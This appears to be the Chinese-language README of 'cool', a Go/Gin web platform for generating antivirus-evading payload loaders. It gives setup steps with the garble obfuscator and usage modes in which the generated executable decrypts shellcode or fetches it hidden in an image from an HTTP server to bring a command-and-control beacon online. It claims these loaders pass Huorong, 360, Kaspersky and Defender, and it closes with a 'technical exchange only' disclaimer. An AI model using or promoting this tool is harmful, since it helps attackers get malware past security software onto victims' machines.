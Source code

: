 # cool
Golang Gin 框架写的免杀平台
## 安装
1. 安装Go环境，版本要**1.17**及以上；
2. 如果是首次安装Go环境，要配置代理，执行以下这两条命令:
 -  **go env -w GO111MODULE=on** 
 -  **go env -w GOPROXY=https://goproxy.io,direct** 
3. 完毕后执行 **go install mvdan.cc/garble@latest** ；
4. 下载本项目到D盘根目录，文件夹名字改为cool；
5. 运行cool.exe；
6. 访问 **http://127.0.0.1:9000** 。

## 使用
为减去浏览器扫描的时间，故生成的文件格式为txt，使用时只需要把后缀修改为前端提示的后缀就可以了。
### 1. 加密1:
- 直接执行exe
### 2. 加密2:
- 直接执行exe
### 3. 分离1：
- 用python起一个HTTP服务(python -m http.server 8080)，
- 把图片放到起http服务的目录下，
- 执行exe 参数为http服务的图片路径（xxx.exe http://127.0.0.1:8080/a.jpg)
### 4. 分离2:
**上线方式1**：
- 用python起一个HTTP服务(python -m http.server 8080)，
- 把图片放到起http服务的目录下，
- 执行exe 参数为http服务的图片路径（xxx.exe http://127.0.0.1:8080/a.jpg)
**上线方式2**：
- 执行xxx.exe 参数为shellcode.txt里的内容 

目前火绒、360、卡巴斯基、def全过；先这样用，不能bypass了再说 - (2021.11.11)。

### 声明：仅用于技术交流，请勿用于非法用途。
